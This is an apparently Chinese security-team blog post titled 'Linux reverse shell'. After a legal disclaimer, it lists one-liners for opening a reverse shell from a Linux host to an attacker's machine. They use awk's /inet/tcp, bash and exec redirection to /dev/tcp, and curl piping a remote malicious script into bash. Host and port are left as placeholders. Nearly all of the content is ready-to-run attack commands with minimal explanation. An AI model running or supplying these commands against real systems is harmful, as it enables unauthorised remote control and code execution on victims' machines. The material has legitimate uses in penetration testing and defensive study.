 #  Linux 反弹shell   
原创 R0seK1ller  蟹堡安全团队   2024-11-18 00:54  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bL2iaicTYdZn7gtxSFZlfuCW6AdQib8Q1onbR0U2h9icP1eRO6wH0AcyJmqZ7USD0uOYncCYIH7ZEE8IicAOPxyb9IA/640?wx_fmt=gif "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/zicSF5UibGP2soZQvhWHibEDgwAMO56qbHib5oMIfAhkibufdic45TJH8rIIFSLJTgaOyQbdicEtbwnlvcmA2icRehicVOw/640?wx_fmt=gif&from=appmsg "")  
  
  
免责声明  
   
  
      蟹堡安全团队的技术文章仅供参考，任何个人和组织在使用网络时应当遵守相关法律法规，不得利用网络从事危害国家安全、荣誉和利益的活动。未经授权，请勿利用文章中的技术资料对任何计算机系统进行入侵操作。利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，蟹堡安全团队及文章作者不承担任何责任。本文所提供的工具仅用于学习，禁止用于其他用途！  
  
	  
    搜集了一部分Get System Shell的方法。  
  
**01**  
  
  
**AWK**  
  
> awk 'BEGIN{s="/inet/tcp/0/[: ip]/[: port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'  
  
  
  
**02**  
  
  
**Bash**  
  
  
> bash -i >& /dev/tcp/[: ip]/[: port] 0>&1  
  
  
  
****  
**03**  
  
  
**curl**  
  
##     Curl 远程加载恶意文件的原理本质上还是通过其他反弹shell的方式实现的，只是通过curl从远程获取恶意脚本并执行了，这样可以延缓文件真正落地时间。  
> curl http://[: host]:[: port]/[: evil_filename] | bash  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zULPOPl8mKfRzbQcANBvF2ygaZ2P6jVZ2vLvGDgf4ibT59sR39HN32UZrgDCxpN2kNcvajZnMg750A/640?wx_fmt=png&from=appmsg "")  
  
****  
**04**  
  
  
**exec**  
  
##   
> exec 5<>/dev/tcp/[: ip]/[: port];cat <&5 | while read line; do $line 2>&5 >&5; done  
  
  